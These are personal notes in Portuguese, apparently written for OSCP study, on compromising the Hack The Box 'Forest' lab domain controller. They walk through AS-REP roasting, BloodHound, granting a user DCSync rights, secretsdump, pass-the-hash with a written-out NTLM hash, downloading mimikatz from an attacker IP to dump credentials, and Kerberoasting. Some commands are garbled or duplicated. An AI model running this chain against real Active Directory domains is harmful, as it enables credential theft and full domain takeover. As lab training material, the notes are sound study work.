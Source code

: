 Forest
========================

# Enumeration

    sudo nmap_enum forest.htb | tee nmap_output.txt
    
    rpcclient -U '' -N 10.10.10.161
    enumdomusers
    
![qownnotes-media-QbmBbN](../../../media/qownnotes-media-QbmBbN.png)

Joguei no arquivo users.txt

    impacket-GetNPUsers -usersfile users.txt -dc-ip 10.10.10.161 htb.local/
    
![qownnotes-media-iEUvtj](../../../media/qownnotes-media-iEUvtj.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hashists/rockyou.txt hash.txt

![qownnotes-media-oHuWhU](../../../media/qownnotes-media-oHuWhU.png)

    impacket-psexec htb.localsvc-alfreso:s3rvice@10.10.10.161impacket-psexec htb.localsvc-alfreso:s3rvice@10.10.10.161
    
    enum4linux -a -A -u svc-alfresco -p s3rvice 10.10.10.161

Nada desses dois ajudarem muito. Bora dee booldhound:

    
    
    impacket-GetUserSPNs 'htb.local/svc-alfresco:s3rvice' -dc-ip 10.10.10.161 -request

# Exploitation

    evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Como não foi possível executar o bloodhound dee maneira remota, utilizei o SharpHound localmene na máquina via winrm

    ./sh.exe -c all --LdapUsername svc-alfresco --LdapPassword s3rvice
    
![qownnotes-media-RdjFti](../../../media/qownnotes-media-RdjFti.png)

Não deu certo jogar os .json no bloodhound. Tentei com outro comando que aparentemente está funcionando:

    bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb -c all -ns 10.10.10.161
 
Dessa forma funcionou. Fazendo uma análise que não pude entender bem aqui, mas acho que pra fins da OSCP não ttem tanta relevância é a questão de meu usuário ter permissão de adicionar usuário ao domínio

# Privilege Escalation

    net user acosta Welcome1! /add /domain
    net group "Exchange Windows Permissions" /add acosta
    
    $pass = convertto-securestring 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('htb\acosta', $pass)
    Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity acosta -Rights DCSync
    
Aqui temos uma outra forma de fazer isso também que seria sem a utilização do powershell e sim com o impacket:

    impacket-ntlmrelayx -t ldap://10.10.10.161 --escalate-user redteam
    firefox http://127.0.0.1/privexchange
    #Fazer login com as credenciais do usuário:
    
![qownnotes-media-hmVWSD](../../../media/qownnotes-media-hmVWSD.png)



![qownnotes-media-dKfQMi](../../../media/qownnotes-media-dKfQMi.png)


A essa altura do campeonato, meu usuário acosta já tinha o DCSync e assim eu já poderia executar o comando:

    impacket-secretsdump htb.local/acosta:Welcome1!@10.10.10.161

![qownnotes-media-fszsny](../../../media/qownnotes-media-fszsny.png)

    impacket-psexec htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
    

## ADICIONAIS
**ALGUNS ADENDOS A MANEIRA DE EXPLORAR A MÁQUINA COMO UM TODO**

Acessando a máquina novamente


### Cached credentials storage and retrieval

    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161  
    
    (new-object net.webclient).downloadfile('http://10.10.14.17/mimikatz.exe','c:\temp\m.exe')
    ./m.exe
    privilege::debug
    sekurlsa::logonpasswords

![qownnotes-media-seBLBe](../../../media/qownnotes-media-seBLBe.png)

Outra forma seria enumerar os tickets kerberos existentes na máquina:

    sekurlsa::tickets

![qownnotes-media-ePROPT](../../../media/qownnotes-media-ePROPT.png)

Nesse caso também não conseguimos nada.

### Service Principal Names

    $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))";$SearchString += $DistinguishedName;$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString);$objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter="serviceprincipalname=*";$Result = $Searcher.FindAll();Foreach($obj in $Result){Foreach($prop in $obj.Properties){$prop}}
    
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'IMAP/EXCH01.htb.local'
    klist

![qownnotes-media-obcRGy](../../../media/qownnotes-media-obcRGy.png)


![qownnotes-media-IszPIc](../../../media/qownnotes-media-IszPIc.png)

Mas o que foi interessante é que alguns desses tickets já existiam na máquina, então prosseguimos da seguinte maneira:

    kerberos::list /export
 
![qownnotes-media-lkUpSZ](../../../media/qownnotes-media-lkUpSZ.png)

Com isso pudemos executar o seguinte comando para tentar quebrar os tickets:

    python /home/acosta/owncloud/Area_de_trabalho/tools/linux/5-lateral_movement/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt 0-60a10000-forest\$@krbtgt~HTB.LOCAL-HTB.LOCAL.kirbi


